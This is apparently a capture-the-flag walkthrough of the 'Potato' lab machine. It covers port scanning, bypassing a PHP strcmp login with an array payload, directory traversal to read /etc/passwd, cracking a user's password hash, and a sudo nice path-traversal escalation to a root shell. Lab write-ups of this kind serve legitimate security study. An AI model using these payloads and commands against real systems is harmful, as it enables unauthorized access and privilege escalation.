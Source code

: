 # Potato

`netdiscover` find the box running on this IP

```
192.168.1.116
```

Port scan reveals port 80 (http) and 2112 (ftp).

Found these files on ftp server

`index.php.bak`
```php
<html>                                                                                                        
<head></head>                                                                                                 
<body>                                                                                                        
                                                                                                              
<?php                                                                                                         
                                                                                                              
$pass= "potato"; //note Change this password regularly                                                        
                                                                                                              
if($_GET['login']==="1"){                                                                                     
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {                  
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";                                  
    setcookie('pass', $pass, time() + 365*24*3600);                                                           
  }else{                                                                                                      
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";               
  }                                                                                                           
  exit();                                                                                                     
}
?>
	
  <form action="index.php?login=1" method="POST">
                <h1>Login</h1>
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>
                <label><b>Password:</b></label>
                <input type="password" name="password" required>
                </br>
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>
```

and 

`welcome.msg` which didnt' have interesting content.

After doing some research, we find that [strcmp is not secure](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016) enough to use for login.
We send the recommended payload which grants us access to the admin area

![[Pasted image 20220629213300.png]]

![[Pasted image 20220629213306.png]]

We then find out a parameter which controls the logs page is vulnerable to directory traversal. WE are able to get `/etc/passwd`

```
username=admin&password[]=%22%22
```

![[Pasted image 20220629220607.png]]

![[Pasted image 20220629214158.png]]

From that file, we get the names of 3 users which can be used to spawn a shell session:

```
root:x:0:0:root:/root:/bin/bash
florianges:x:1000:1000:florianges:/home/florianges:/bin/bash
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash
```

We noticed the user `webadmin` has a hash in their entry. THis was cracked with hashcat and found to be

```password
dragon
```

with `sudo -l`

![[Pasted image 20220702224844.png]]

 we found the user was allowed to run the below command as root

```
sudo /bin/nice /notes/*
```

we were able to use directory traversal to get an interactive bash session as root

```bash
sudo /bin/nice /notes/../../../../../bin/bash -i
```

## Root flag

![[Pasted image 20220702225350.png]]